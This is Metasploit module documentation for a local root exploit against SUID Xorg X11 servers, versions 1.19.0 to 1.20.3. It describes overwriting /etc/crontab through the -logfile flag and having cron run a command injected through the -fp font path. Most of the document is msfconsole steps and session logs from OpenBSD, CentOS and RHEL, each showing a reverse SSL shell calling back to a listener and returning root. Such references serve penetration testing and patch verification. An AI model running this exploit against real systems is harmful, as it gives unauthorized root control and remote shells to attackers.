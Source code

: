 ## Vulnerable Application

This module attempts to gain root privileges using Xorg X11 server versions 1.19.0 < 1.20.3 set as SUID.
A permission check flaw exists for -modulepath and -logfile options when starting Xorg.
This flaw allows users to write over existing files on the system.
This exploit backs up crontab and then uses -logfile to overwrite it.
A command to be run is set for the Font Path argument -fp which will be logged and ran by cron.

Xorg (commonly referred as simply X) is the most popular display server among Linux users.
Its ubiquity has led to making it an ever-present requisite for GUI applications,
resulting in massive adoption from most distributions.

Xorg is more restrictive to exploit under CentOS / RHEL. The user must have console lock and SeLinux may interfere.
If Selinux is enforcing crontabs context will be changed on exploit and you will be unable to clean it.

This module has been tested successfully on:

* OpenBSD 6.3
* OpenBSD 6.4
* CentOS 7.4.1708 x86_64
* CentOS 7.5.1084 x86_64
* Red Hat Enterprise Linux 7.5 x86_64


## Verification Steps

On CentOS/RHEL your session must have console lock.  To get a console lock you can login locally with a user.

1. Start `msfconsole`
2. Get a session
3. Do: `use exploit/multi/local/xorg_x11_suid_server`
4. Do: Set a payload/target or use default(cmd/unix/reverse_openssl)
5. Do: `set SESSION [SESSION]`
6. Do: `set LHOST [LHOST]`
7. Do: `run`
8. You should get a new *root* session


## Options

### Xdisplay

Display to use for Xorg (default: `:1`)

### WritableDir

A writable directory file system path (default: `/tmp`)

### ConsoleLock

Will check for console lock under linux (default: `true`)


## Scenarios

### OpenBSD

```
msf > use exploit/multi/local/xorg_x11_suid_server
msf exploit(multi/local/xorg_x11_suid_server) > set session 1
session => 1
msf exploit(multi/local/xorg_x11_suid_server) > set lhost 172.30.0.2
lhost => 172.30.0.2
msf exploit(multi/local/xorg_x11_suid_server) > set verbose true
verbose => true
msf exploit(multi/local/xorg_x11_suid_server) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse double SSL handler on 172.30.0.2:4444
[+] Passed all initial checks for exploit
[*] Uploading your payload, this could take a while
[*] Trying /etc/crontab overwrite
[+] /etc/crontab overwrite successful
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo t2XWfcWkZHevLPS8;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "t2XWfcWkZHevLPS8\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (172.30.0.2:4444 -> 172.30.0.99:41253) at 2018-11-12 15:06:39 -0600
[+] Returning session after cleaning
[+] Deleted /tmp/.session-odRjfx

id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
```

### CentOS 7.4.1708 x86_64

```
msf > use exploit/multi/local/xorg_x11_suid_server
msf exploit(multi/local/xorg_x11_suid_server) > set session 1
session => 1
msf exploit(multi/local/xorg_x11_suid_server) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf exploit(multi/local/xorg_x11_suid_server) > set verbose true
verbose => true
msf exploit(multi/local/xorg_x11_suid_server) > run

[*] Started reverse double SSL handler on 172.16.191.188:4444 
[*] Running additional check for Linux
[+] Console lock for user
[+] Selinux is not an issue
[+] Xorg path found at /usr/bin/Xorg
[+] Xorg binary /usr/bin/Xorg is SUID
[+] Xorg version 1.19.3 is vulnerable
[!] Xorg in process list
[!] Could not get version or Xorg process possibly running, may fail
[+] Passed all initial checks for exploit
[*] Uploading your payload, this could take a while
[*] Trying /etc/crontab overwrite
[+] /etc/crontab overwrite successful
[*] Waiting on cron to run
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo zk0jobDMxFdBxLBU;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "zk0jobDMxFdBxLBU\n"
[*] Matching...
[*] B is input...
[*] Command shell session 7 opened (172.16.191.188:4444 -> 172.16.191.141:46318) at 2018-11-24 21:31:04 -0500
[*] Waiting on cron to run
[+] Returning session after cleaning
[+] Deleted /tmp/.session-Tafw0iW0r8

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux centos-7-1708.localdomain 3.10.0-693.el7.x86_64 #1 SMP Tue Aug 22 21:09:27 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

### Red Hat Enterprise Linux 7.5 x86_64

```
msf > use exploit/multi/local/xorg_x11_suid_server
msf exploit(multi/local/xorg_x11_suid_server) > set session 1
session => 1
msf exploit(multi/local/xorg_x11_suid_server) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf exploit(multi/local/xorg_x11_suid_server) > set verbose true
verbose => true
msf exploit(multi/local/xorg_x11_suid_server) > run

[*] Started reverse double SSL handler on 172.16.191.165:4444 
[*] Running additional check for Linux
[+] Console lock for user
[+] Selinux is not an issue
[+] Xorg path found at /usr/bin/Xorg
[+] Xorg binary /usr/bin/Xorg is SUID
[+] Xorg version 1.19.5 is vulnerable
[!] Xorg in process list
[!] Could not get version or Xorg process possibly running, may fail
[+] Passed all initial checks for exploit
[*] Uploading your payload, this could take a while
[*] Trying /etc/crontab overwrite
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo EEdPp66R4es6U3WF;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[+] /etc/crontab overwrite successful. Waiting for job to run (may take a minute)...
[*] Reading from socket B
[*] B: "EEdPp66R4es6U3WF\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.228:44978) at 2019-04-21 06:29:04 -0400
[+] Returning session after cleaning
[+] Deleted /tmp/.session-aqxyug0fH

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux red-hat-7-5-x64.local 3.10.0-862.el7.x86_64 #1 SMP Wed Mar 21 18:14:51 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
cat /etc/redhat-release
Red Hat Enterprise Linux Server release 7.5 (Maipo)
```
